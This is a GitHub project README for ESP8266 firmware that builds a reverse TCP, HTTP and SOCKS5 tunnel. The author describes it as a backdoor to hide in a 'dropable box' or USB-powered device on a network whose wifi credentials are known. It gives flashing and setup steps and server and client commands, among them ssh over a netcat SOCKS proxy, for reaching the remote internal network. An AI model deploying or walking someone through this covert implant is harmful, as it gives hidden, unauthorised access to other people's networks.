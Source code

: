 #Esp8266-reverse-socks5

Reverse http proxy, reverse tcp, reverse socks5 proxy based on the esp8266.

Once you know the wifi credential, this projects aims to setup a reverse tcp backdoor.

It can be hidden in a dropable box or any usb powered devices

![blackbox open](https://github.com/mehdilauters/esp8266-wifiScanMap/raw/master/doc/blackbox_open.png)  ![blackbox](https://github.com/mehdilauters/esp8266-wifiScanMap/raw/master/doc/usb.png)

Uses the esp8266 with a known wifi access point to build a reverse socks5 tunnel.

 - Setup your esp-open-rtos path in the makefile
 - Flash and start the esp: ````make flash````
 - wait it creates a configuration access point
 - connect to [http://172.16.0.1/](http://172.16.0.1/)
 - configure wifi and home server
 - do not forget to fill the ````Security check```` with the serial id as returned by ````sdk_system_get_chip_id()````
 - reboot

## Socks5 proxy

On the server side:
 ````python main.py -s -r 8888 -l 8889````
 
 And then connect to localhost:8889 with a socks5 client to access the remote network.
 For ssh, it would be:
 
 ````ssh -v -o ProxyCommand='nc -X 5 -x 127.0.0.1:8889 %h %p' 192.168.x.x```` # remote local machine

## HTTP proxy

 On the server side:
 
 ````python main.py -p -r 8888 -l 8889````
 
 ````HTTP_PROXY="127.0.0.1:8889" wget http://hackaday.com````
 
## Raw TCP socket

 On the server side:


 ````python main.py -r 8888 -l 8889````
 
 ````echo "hello from server" | nc localhost 8889````
 
